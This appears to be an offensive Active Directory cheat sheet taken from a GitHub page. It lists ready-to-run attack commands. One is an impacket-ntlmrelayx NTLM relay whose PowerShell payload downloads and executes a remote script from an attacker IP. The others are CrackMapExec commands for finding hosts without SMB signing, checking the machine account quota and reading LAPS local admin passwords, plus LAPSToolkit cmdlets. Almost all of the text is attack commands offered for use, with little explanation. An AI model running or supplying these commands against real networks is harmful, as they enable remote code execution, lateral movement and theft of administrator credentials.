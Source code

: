 ## ntlmrelayx SMB Command
```
impacket-ntlmrelayx --no-http-server -smb2support -t smb://<target> -c "powershell.exe iex(iWr -UsEbaSIcparSING http://IP/a.ps1);"
```


# Crackmapexec

## check smb not signed
```
cme smb <IP> --gen-relay-list <output_file>
```

## check machine account quota
```
cme ldap <target> -u <username> -p <password> -d <domain> -M MAQ
```

## read LAPS
```
cme ldap <dc_ip> -d <domain> -u <username> -p '<password>' --module laps
```

# LAPSToolkit

## LAPSToolkit command
```
Get-LAPSComputers
Find-AdmPwdExtendedRights
Get-LAPSComputers
```
